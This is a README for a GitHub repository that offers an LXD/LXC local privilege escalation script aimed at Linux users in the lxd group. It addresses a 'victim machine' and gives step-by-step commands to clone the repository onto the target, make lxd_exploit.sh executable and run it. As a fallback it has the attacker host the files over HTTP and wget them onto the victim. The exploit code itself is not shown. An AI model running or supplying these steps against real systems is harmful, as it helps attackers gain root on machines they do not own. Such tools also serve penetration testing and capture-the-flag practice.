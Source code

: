 # LXD/LXC Local Privilege Escalation

This script allows to vertically escalate privilege on linux machines with current user in lxd/lxc group. It's based on [LXD](https://linuxcontainers.org/lxd/).

## Usage

On victim machine clone the repository:
```
git clone https://github.com/lykan89/LXD-privilege-escalation.git
```

Running the exploit:
```
cd LXD-privilege-escalation
chmod +x lxd_exploit.sh
./lxd_exploit.sh
```

## Note:
> If the `git clone` doesn't work on victim machine, Clone the repository on the local machine and host the folder via HTTP and `wget` it.

## License
This script uses MIT License
